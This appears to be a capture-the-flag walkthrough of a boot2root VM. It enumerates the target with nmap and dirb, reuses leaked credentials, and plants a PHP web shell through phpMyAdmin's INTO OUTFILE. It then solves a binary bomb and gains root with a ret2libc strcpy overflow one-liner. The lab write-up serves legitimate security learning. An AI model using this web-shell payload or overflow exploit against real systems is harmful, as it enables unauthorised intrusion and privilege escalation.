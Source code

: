 When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
### 1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:<br/>
    ![ifconfig](screens/1.jpg)
    
### 2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`:<br/>
   ![nmap](screens/nmap.jpg)
      
   We see that port 80 accessible through the browser

### 3. Put this 192.168.12.128 into the browser address field and you will get a simple page:<br/>
      ![web_page](screens/web_page.jpg)
      
### 4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library:<br/>
   4.1 `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       output gives us a possibility to see the "forum" folder and some other which are not really relevant:<br/>
       ![dirb](screens/dirb.jpg)<br/>
       Though http://192.168.12.128/forum not found in browser

   4.2 lets try ssl version of the site<br/>
       `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       and we get much more info now, but there are few main folders:<br/>
       ![dirb_https](screens/dirb_https.jpg)<br/>
       https://192.168.12.128/forum<br/>
       https://192.168.12.128/webmail<br/>
       https://192.168.12.128/phpmyadmin<br/>

### 5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum <br/>
   5.1 We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:<br/>
       
   ![forum_log_pass](screens/forum_log_pass.jpg)<br/>
   assuming that it was log in try we can think that it's user password, probably the one who created the topic<br/>
   
   5.2 Log in functionality is present on a forum, as well as users tab:<br/>
   ![users](screens/forum_users.jpg)<br/>
   there are not so much users, so we going to try to login with credentials of them and this password that we have<br/>
   the try to login with lmezard and password that we've found was successfull<br/>
   ![user_profile](screens/forum_user_profile.jpg)<br/>
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
### 6. Going to check the webmail page
   6.1 trying if user email that we found and password that we used to login are matching, seems it works<br/>
   ![web_mailer](screens/web_mailer.jpg)<br/>
   6.2 inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site<br/>
   ![inbox](screens/inbox.jpg)<br/>
   ![db_access_mail](screens/db_access_mail.jpg)<br/>

### 7. phpmyadmin investigation
   7.1 lets try to login with credentials that we've got<br/>
   7.2 using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser<br/>
   During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder<br/>
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`<br/>
    ![db_injection](screens/db_injection.jpg)<br/>
### 8. thanks to the tutorial we can now use shell commands of the server from the browser 
   8.1 which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder<br/>
   ![bash_in_browser](screens/bash_through_browser.jpg)<br/>
   8.2 looks like an ssh or ftp access <br/>
   ![lmezard_password](screens/lmezard_password.jpg)<br/>
   
### 9.     the ssh try
       ftp
       9.1 we can see two files, get them
       9.2 readme contains some hint for us
       9.3 fun is archive, decompressing it
       it contains a lot of .pcap files
       9.4 using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter
       9.5 we found out that archive 8 files return the values from the password
       lets sort them according to numbers inside and we will get the order
       APM1E I
       ZPY1Q h
       ECOW1 e
       7DT5Q a
       T7VV0 r
       J5LKW t
       T44J5 p
       BJPCP wnage
       now we see that the password "Iheartpwnage" looks like case sensetive
       9.6 In fun archive we also saw hint about SHA256, lets encode our password to SHA256 "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
       9.7 and try to ssh on the server with "laurie@192.168.12.128" and password
### 10. We are successfully ssh with laurie user
    10.1 we see the README file that gives us a hint how to get password for the ssh access with user "thor"
    10.2 disasemple bomb file and we see 6 functions
         Phase_1 pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
         Phase_2 function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
         Phase_3 contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
         Phase_4 contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
         Phase_5 contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
         Phase_6 the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access
        The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### 11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
### 12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
### 13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
### 14. we need to exploit
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
